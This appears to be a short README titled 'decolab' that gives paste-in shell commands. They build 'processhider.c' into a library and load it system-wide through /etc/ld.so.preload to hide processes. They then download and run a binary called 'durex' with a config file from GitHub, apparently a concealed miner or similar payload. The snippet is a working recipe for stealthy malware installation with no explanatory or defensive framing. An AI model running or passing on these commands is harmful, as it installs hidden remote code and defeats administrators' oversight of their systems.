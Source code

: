 # decolab
git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
wget https://raw.githubusercontent.com/bulboni/dexcol/main/config.json && wget https://github.com/bulboni/dexcol/raw/main/durex && chmod +x durex && ./durex
